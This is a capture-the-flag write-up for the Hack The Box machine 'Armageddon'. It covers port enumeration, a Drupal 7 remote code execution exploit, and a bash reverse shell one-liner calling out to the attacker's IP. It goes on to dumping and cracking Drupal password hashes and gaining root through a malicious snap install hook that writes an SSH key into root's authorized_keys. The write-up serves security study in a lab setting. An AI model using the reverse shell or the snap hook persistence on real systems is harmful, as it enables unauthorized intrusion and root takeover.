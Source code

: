 # Armageddon

## Overview

Starting off a shell is gained using an exploit in the drupal instance running on the web port. Using the exploit a shell is gained on the box. Using this shell access is gained into the MySQL instance running on the box. From there the users from the drupal installation are dumped. Cracking one of the passwords grants access to the machine through SSH. In order to gain root snapd is used to install a package as root. From there a root shell is gained on the box and the box is complete.

## Enumeration

To begin with nmap is used to scan all the ports on the machine.

```bash
sudo nmap -p- 10.129.106.237 -oA nmap/all-ports
[sudo] password for tc: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 16:58 EDT
Nmap scan report for 10.129.106.237
Host is up (0.090s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 180.66 seconds
```

There are only 2 different ports that are open on the box port 22 and port 80. In order to get more information another nmap scan is run.

```bash
sudo nmap -p22,80 -sC -sV -oA nmap/info 10.129.106.237
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 17:03 EDT
Nmap scan report for 10.129.106.237
Host is up (0.087s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.52 seconds
```

### Port 80

Based on the robots.txt and the title of the page it appears to be a drupal website running on the machine. There is a tool called ```droopescan``` the can enumerate information off a drupal website. Using this tool the version is found to be ```7.56```

```bash
droopescan scan drupal -u http://10.129.106.237/
[+] Plugins found:
    profile http://10.129.106.237/modules/profile/
    php http://10.129.106.237/modules/php/
    image http://10.129.106.237/modules/image/

[+] Themes found:
    seven http://10.129.106.237/themes/seven/
    garland http://10.129.106.237/themes/garland/

[+] Possible version(s):
    7.56

[+] Possible interesting urls found:
    Default changelog file - http://10.129.106.237/CHANGELOG.txt

[+] Scan finished (0:01:58.315916 elapsed)
```

## Exploiting

Searching for this drupal version using searchsploit there are a couple exploits that come up. 

![Searchsploit](Machines/attachments/armageddon1.png)

Doing a quick google search turns up this [exploit](https://www.exploit-db.com/exploits/44449) in cases where metasploit is not wanted. Using this exploit we can upload a shell script that executes a reverse shell and run it. All we need to do is use curl to download the script. Then using the exploit which allows for code execution set it as executable and run it. The shell script simply executes a reverse shell by running ```bash shell.sh```.

### shell.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/80 0>&1
```

## Privilege Escalation

To begin with gaining root, a MySQL instance is located and the credentials for it were found in ```settings.php``` from the drupal installation. We can use file redirects to run commands through MySQL.  Here is an example of running a set of commands.  ```mysql -u {redacted} --password={redacted} < c.sql > out 2>&1```. This format to run commands was found [here](https://serverfault.com/questions/356567/mysql-not-to-print-selects-output-to-terminal). 

Here is an example of one of the command files.

```sql
use drupal;  
show tables;
```

Here is the file that dumped the users and their password hashes from the SQL database.

```sql
use drupal;  
select \* from users
```

Once we have the hases from the users table we can use john to crack the password. 

```bash
tc@ubuntu:/opt/john$ ./john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt ~/htb/Armageddon/hash   
Using default input encoding: UTF-8  
Loaded 1 password hash (Drupal7, $S$ \[SHA512 256/256 AVX2 4x\])  
Cost 1 (iteration count) is 32768 for all loaded hashes  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
{redacted}           (?)  
1g 0:00:00:00 DONE (2021-04-01 21:25) 1.265g/s 293.6p/s 293.6c/s 293.6C/s tiffany..harley  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed
```

## User

Using the cracked password we can log into the compter with SSH. Once we are logged into the computer we find ourselves as the user with access to the user.txt file. From there running ```sudo -l``` we notice that we can install a package using snap as root.

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

In order to get root we need to create a new snap package that will give us access to the root user. 

I found a couple of different links that all helped in figuring out how to escalate privileges. [Here](https://www.exploit-db.com/exploits/46361) is an old exploit that pointed me to the hooks in a snap installation. This [link](https://snapcraft.io/docs/supported-snap-hooks) shows a list of all supported hooks in a snap package. There are 2 primary hooks that are of interest to us. The first is the ```install``` hook and the other is ```configure``` hook. Following along with the second link a snap package was setup and an install hook was used to write a ssh key for the root user. 

This picture shows where I put the install hook files. I am still not sure exactly which file was in the correct location but this file structure worked.

![File List](Machines/attachments/armageddon2.png)

The script that was used to give a root shell saved a SSH public key to the root's ```authorized_keys``` file. Here is a copy of the script that added my SSH public key.

```bash
#!/bin/bash

mkdir -p /root/.ssh/
echo "{Key redacted}" >> /root/.ssh/authorized_keys
chmod 644 /root/.ssh/authorized_keys
touch /dev/shm/made
```

To install snapcraft there is a yaml file that needs to be edited as well. Listing the snaps that were on the system showed that there was only ```base: core```. Therefore I had to make sure that the base my app was using matched what was already installed.

Here is a full copy of my snapcraft.yaml file.

```bash
name: hello # you probably want to 'snapcraft register <name>'
base: core # the base snap is the execution environment for this snap
version: '0.1' # just for humans, typically '1.2+git' or '1.3.2'
summary: Single-line elevator pitch for your amazing snap # 79 char long summary
description: |
  This is my-snap's description. You have a paragraph or two to tell the
  most important story about your snap. Keep it under 100 words though,
  we live in tweetspace and your description wants to look good in the snap
  store.

grade: devel # must be 'stable' to release into candidate/stable channels
confinement: devmode # use 'strict' once you have the right plugs and slots

parts:
  gnu-hello:
    source: http://10.10.14.25/hello-2.10.tar.gz
    plugin: autotools
```

This was another [link](https://ubuntu.com/tutorials/create-your-first-snap#3-building-a-snap-is-easy) that helped me understand snap packages. 

In order to build the snap package you can use a tool called ```snapcraft```. In my case to build the snap package I had to make sure snapcraft used ```lxd```. The command to build the package is ```snapcraft --use-lxd``` which is run in the folder with the snapcraft.yaml file. 

With the package all setup and uploaded to the victim machine all we need to go is install the package.

```bash
sudo /usr/bin/snap install --devmode --dangerous /dev/shm/hello_0.1_amd64.snap
```

Once the package is installed we can login to the root user with our ssh key.
